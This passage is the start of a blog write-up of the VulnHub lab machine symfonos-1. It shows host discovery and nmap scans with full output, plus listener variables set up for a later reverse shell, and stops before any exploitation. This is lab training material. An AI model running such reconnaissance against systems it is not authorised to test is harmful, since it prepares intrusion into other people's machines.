










<html lang="en">
    <head>
        <meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1">
        <title>/f0c1s/blog/sec/vulnhub/symfonos-1</title>
        <link rel="stylesheet" href="../../../index.css"/>
        <link rel="stylesheet" href="../../../highlight/styles/monokai.min.css"/>
        <script src="../../../highlight/highlight.min.js"></script>
        <script src="../../../setup.js"></script>
        <script>hljs.highlightAll();</script>
    </head>
<body onload="setup()">
<h1>/f0c1s/blog/sec/vulnhub/symfonos-1</h1>

<nav>
    <a href="../../../index.html">/blog</a>
    <a href="../../index.html">Security</a>
    <a href="../index.html">VulnHub</a>
    <a href="../../../sec/vulnhub/symfonos-1/symfonos-1.html">+ symfonos-1 - 2022.01.04 Tuesday</a>
</nav>

## Description

> Beginner real life based machine designed to teach a interesting way of obtaining a low priv shell. SHOULD work for both VMware and Virtualbox.
>
> Name: symfonos: 1
> Difficulty: Beginner
> Tested: VMware Workstation 15 Pro & VirtualBox 6.0
> DHCP Enabled
> Note: You may need to update your host file for symfonos.local

[VulnHub: https://www.vulnhub.com/entry/symfonos-1,322/](https://www.vulnhub.com/entry/symfonos-1,322/)
[Series: https://www.vulnhub.com/series/symfonos,217/](https://www.vulnhub.com/series/symfonos,217/)



## Scanning

```shell
fping -aAqg 192.168.56.1/24 | tee fping.txt
192.168.56.1
192.168.56.2
192.168.56.70
192.168.56.88

```

```shell
export RHOST="192.168.56.88"
export LHOST="192.168.56.70"
export LPORT="443"

```

```shell
_n $RHOST
firing nmap 192.168.56.88 | tee nmap.default.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-04 12:26 IST
Nmap scan report for 192.168.56.88
Host is up (0.00075s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds

```

```shell
_ntd $RHOST
firing nmap 192.168.56.88 -p- -Pn -A -T4 --min-rate=5000 -sVC | tee nmap.tcp-ports.deep.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-04 12:26 IST
Nmap scan report for 192.168.56.88
Host is up (0.00012s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 7h29m59s, deviation: 3h27m50s, median: 5h29m59s
| smb2-time:
|   date: 2022-01-04T12:26:48
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2022-01-04T06:26:48-06:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.16 seconds

```


```shell
sudo nmap $RHOST -p- -Pn -A -T4 --min-rate=5000 -sVC --script=*enum* | tee nmap.enum.txt
[sudo] password for f0c1s:
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-04 12:27 IST
^[Nmap scan report for 192.168.56.88
Host is up (0.00085s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh2-enum-algos:
|   kex_algorithms: (10)
|       curve25519-sha256
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group16-sha512
|       diffie-hellman-group18-sha512
|       diffie-hellman-group14-sha256
|       diffie-hellman-group14-sha1
|   server_host_key_algorithms: (5)
|       ssh-rsa
|       rsa-sha2-512
|       rsa-sha2-256
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (6)
|       chacha20-poly1305@openssh.com
|       aes128-ctr
|       aes192-ctr
|       aes256-ctr
|       aes128-gcm@openssh.com
|       aes256-gcm@openssh.com
|   mac_algorithms: (10)
|       umac-64-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-64@openssh.com
|       umac-128@openssh.com
|       hmac-sha2-256
|       hmac-sha2-512
|       hmac-sha1
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
25/tcp  open  smtp        Postfix smtpd
| ssl-enum-ciphers:
|   TLSv1.0:
|     ciphers:
|       TLS_DHE_RSA_WITH_AES_128_CBC_SHA (dh 2048) - A
|       TLS_DHE_RSA_WITH_AES_256_CBC_SHA (dh 2048) - A
|       TLS_DHE_RSA_WITH_CAMELLIA_128_CBC_SHA (dh 2048) - A
|       TLS_DHE_RSA_WITH_CAMELLIA_256_CBC_SHA (dh 2048) - A
|       TLS_DHE_RSA_WITH_SEED_CBC_SHA (dh 2048) - A
|       TLS_DH_anon_WITH_AES_128_CBC_SHA (dh 2048) - F
|       TLS_DH_anon_WITH_AES_256_CBC_SHA (dh 2048) - F
|       TLS_DH_anon_WITH_CAMELLIA_128_CBC_SHA (dh 2048) - F
|       TLS_DH_anon_WITH_CAMELLIA_256_CBC_SHA (dh 2048) - F
|       TLS_DH_anon_WITH_SEED_CBC_SHA (dh 2048) - F
|       TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA (secp256r1) - A
|       TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA (secp256r1) - A
|       TLS_ECDH_anon_WITH_AES_128_CBC_SHA (secp256r1) - F
|       TLS_ECDH_anon_WITH_AES_256_CBC_SHA (secp256r1) - F
|       TLS_RSA_WITH_AES_128_CBC_SHA (rsa 2048) - A
|       TLS_RSA_WITH_AES_256_CBC_SHA (rsa 2048) - A
|       TLS_RSA_WITH_CAMELLIA_128_CBC_SHA (rsa 2048) - A
|       TLS_RSA_WITH_CAMELLIA_256_CBC_SHA (rsa 2048) - A
|       TLS_RSA_WITH_SEED_CBC_SHA (rsa 2048) - A
|     compressors:
|       NULL
|     cipher preference: client
|     warnings:
|       Anonymous key exchange, score capped at F
|   TLSv1.1:
|     ciphers:
|       TLS_DHE_RSA_WITH_AES_128_CBC_SHA (dh 2048) - A
|       TLS_DHE_RSA_WITH_AES_256_CBC_SHA (dh 2048) - A
|       TLS_DHE_RSA_WITH_CAMELLIA_128_CBC_SHA (dh 2048) - A
|       TLS_DHE_RSA_WITH_CAMELLIA_256_CBC_SHA (dh 2048) - A
|       TLS_DHE_RSA_WITH_SEED_CBC_SHA (dh 2048) - A
|       TLS_DH_anon_WITH_AES_128_CBC_SHA (dh 2048) - F
|       TLS_DH_anon_WITH_AES_256_CBC_SHA (dh 2048) - F
|       TLS_DH_anon_WITH_CAMELLIA_128_CBC_SHA (dh 2048) - F
|       TLS_DH_anon_WITH_CAMELLIA_256_CBC_SHA (dh 2048) - F
|       TLS_DH_anon_WITH_SEED_CBC_SHA (dh 2048) - F
|       TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA (secp256r1) - A
|       TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA (secp256r1) - A
|       TLS_ECDH_anon_WITH_AES_128_CBC_SHA (secp256r1) - F
|       TLS_ECDH_anon_WITH_AES_256_CBC_SHA (secp256r1) - F
|       TLS_RSA_WITH_AES_128_CBC_SHA (rsa 2048) - A
|       TLS_RSA_WITH_AES_256_CBC_SHA (rsa 2048) - A
|       TLS_RSA_WITH_CAMELLIA_128_CBC_SHA (rsa 2048) - A
|       TLS_RSA_WITH_CAMELLIA_256_CBC_SHA (rsa 2048) - A
|       TLS_RSA_WITH_SEED_CBC_SHA (rsa 2048) - A
|     compressors:
|       NULL
|     cipher preference: client
|     warnings:
|       Anonymous key exchange, score capped at F
|   TLSv1.2:
|     ciphers:
|       TLS_DHE_RSA_WITH_AES_128_CBC_SHA (dh 2048) - A
|       TLS_DHE_RSA_WITH_AES_128_CBC_SHA256 (dh 2048) - A
|       TLS_DHE_RSA_WITH_AES_128_CCM (dh 2048) - A
|       TLS_DHE_RSA_WITH_AES_128_CCM_8 (dh 2048) - A
|       TLS_DHE_RSA_WITH_AES_128_GCM_SHA256 (dh 2048) - A
|       TLS_DHE_RSA_WITH_AES_256_CBC_SHA (dh 2048) - A
|       TLS_DHE_RSA_WITH_AES_256_CBC_SHA256 (dh 2048) - A
|       TLS_DHE_RSA_WITH_AES_256_CCM (dh 2048) - A
|       TLS_DHE_RSA_WITH_AES_256_CCM_8 (dh 2048) - A
|       TLS_DHE_RSA_WITH_AES_256_GCM_SHA384 (dh 2048) - A
|       TLS_DHE_RSA_WITH_CAMELLIA_128_CBC_SHA (dh 2048) - A
|       TLS_DHE_RSA_WITH_CAMELLIA_128_CBC_SHA256 (dh 2048) - A
|       TLS_DHE_RSA_WITH_CAMELLIA_256_CBC_SHA (dh 2048) - A
|       TLS_DHE_RSA_WITH_CAMELLIA_256_CBC_SHA256 (dh 2048) - A
|       TLS_DHE_RSA_WITH_CHACHA20_POLY1305_SHA256 (dh 2048) - A
|       TLS_DHE_RSA_WITH_SEED_CBC_SHA (dh 2048) - A
|       TLS_DH_anon_WITH_AES_128_CBC_SHA (dh 2048) - F
|       TLS_DH_anon_WITH_AES_128_CBC_SHA256 (dh 2048) - F
|       TLS_DH_anon_WITH_AES_128_GCM_SHA256 (dh 2048) - F
|       TLS_DH_anon_WITH_AES_256_CBC_SHA (dh 2048) - F
|       TLS_DH_anon_WITH_AES_256_CBC_SHA256 (dh 2048) - F
|       TLS_DH_anon_WITH_AES_256_GCM_SHA384 (dh 2048) - F
|       TLS_DH_anon_WITH_CAMELLIA_128_CBC_SHA (dh 2048) - F
|       TLS_DH_anon_WITH_CAMELLIA_128_CBC_SHA256 (dh 2048) - F
|       TLS_DH_anon_WITH_CAMELLIA_256_CBC_SHA (dh 2048) - F
|       TLS_DH_anon_WITH_CAMELLIA_256_CBC_SHA256 (dh 2048) - F
|       TLS_DH_anon_WITH_SEED_CBC_SHA (dh 2048) - F
|       TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA (secp256r1) - A
|       TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA256 (secp256r1) - A
|       TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256 (secp256r1) - A
|       TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA (secp256r1) - A
|       TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA384 (secp256r1) - A
|       TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384 (secp256r1) - A
|       TLS_ECDHE_RSA_WITH_CAMELLIA_128_CBC_SHA256 (secp256r1) - A
|       TLS_ECDHE_RSA_WITH_CAMELLIA_256_CBC_SHA384 (secp256r1) - A
|       TLS_ECDHE_RSA_WITH_CHACHA20_POLY1305_SHA256 (secp256r1) - A
|       TLS_ECDH_anon_WITH_AES_128_CBC_SHA (secp256r1) - F
|       TLS_ECDH_anon_WITH_AES_256_CBC_SHA (secp256r1) - F
|       TLS_RSA_WITH_AES_128_CBC_SHA (rsa 2048) - A
|       TLS_RSA_WITH_AES_128_CBC_SHA256 (rsa 2048) - A
|       TLS_RSA_WITH_AES_128_CCM (rsa 2048) - A
|       TLS_RSA_WITH_AES_128_CCM_8 (rsa 2048) - A
|       TLS_RSA_WITH_AES_128_GCM_SHA256 (rsa 2048) - A
|       TLS_RSA_WITH_AES_256_CBC_SHA (rsa 2048) - A
|       TLS_RSA_WITH_AES_256_CBC_SHA256 (rsa 2048) - A
|       TLS_RSA_WITH_AES_256_CCM (rsa 2048) - A
|       TLS_RSA_WITH_AES_256_CCM_8 (rsa 2048) - A
|       TLS_RSA_WITH_AES_256_GCM_SHA384 (rsa 2048) - A
|       TLS_RSA_WITH_CAMELLIA_128_CBC_SHA (rsa 2048) - A
|       TLS_RSA_WITH_CAMELLIA_128_CBC_SHA256 (rsa 2048) - A
|       TLS_RSA_WITH_CAMELLIA_256_CBC_SHA (rsa 2048) - A
|       TLS_RSA_WITH_CAMELLIA_256_CBC_SHA256 (rsa 2048) - A
|       TLS_RSA_WITH_SEED_CBC_SHA (rsa 2048) - A
|     compressors:
|       NULL
|     cipher preference: client
|     warnings:
|       Anonymous key exchange, score capped at F
|_  least strength: F
| smtp-enum-users:
|_  Method RCPT returned a unhandled status code.
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-enum:
|_  /manual/: Potentially interesting folder
